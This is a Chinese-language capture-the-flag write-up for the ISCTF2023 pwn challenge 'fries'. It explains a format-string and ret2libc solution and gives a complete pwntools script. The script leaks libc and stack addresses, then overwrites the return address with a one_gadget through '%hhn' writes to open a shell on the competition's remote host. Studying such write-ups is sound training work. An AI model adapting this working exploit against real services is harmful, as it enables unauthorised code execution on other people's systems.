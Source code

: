 ```yaml
---
title: isctf2023 - fries
date: 2023/12/4 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 涉及格式化字符串和ret2libc攻击，通过泄露栈和libc地址并利用one_gadget实现远程shell。
---
```


## 文件分析

保护全开  
ghidra分析为64位程序

## 解题思路

这道题考察格式化字符串+ret2libc，共有8次机会，可以先leak栈地址和libc地址，
再把返回地址写成打开shell，此处使用one_gadget可以只利用一次返回完成攻击

## 踩过的坑

本地能过的脚本，远端换了多少ogg就是不行，最后发现是栈上内容不一样！
下次还是先patchelf把libc打成目标的再本地调试吧（一开始偷懒，本地没patch）

## EXPLOIT

```python
from pwn import *

def payload(lo):
    global sh
    if lo:
        sh = process('./fries')
        if lo & 0b10:
            gdb.attach(sh, gdbscript='b *$rebase(0x1300)')
    else:
        sh = remote('43.249.195.138', 21942)
    oneGadgetOffset = 0xebc85
    libc = ELF('./libc.so.6')

    # payload 1, enter adventure()
    sh.sendline(b'fries\0')

    # payload 2, leak libc and stackAddr
    sh.recvuntil(b'pier\n')
    sh.sendline(b'%15$p%24$p')

    libcBase = int(sh.recv(14), 16) - libc.symbols['_IO_2_1_stdout_']
    ogg = libcBase + oneGadgetOffset
    stackRet = int(sh.recv(14), 16) - 0x48

    # payload 3 ~ 8, make one_gadget on retAddr
    mask = 0xff
    for i in range(6):
        sh.recvuntil(b'pier\n')
        count = (ogg & mask) >> 8 * i
        sh.sendline(f'%{count}c%10$hhn'.ljust(16).encode() + p64(stackRet + i))
        mask <<= 8

    # payload 9, discard remaining 1 read
    sh.recvuntil(b'pier\n')
    sh.sendline(b'just for fun\0')

    sh.interactive()
```

Done.
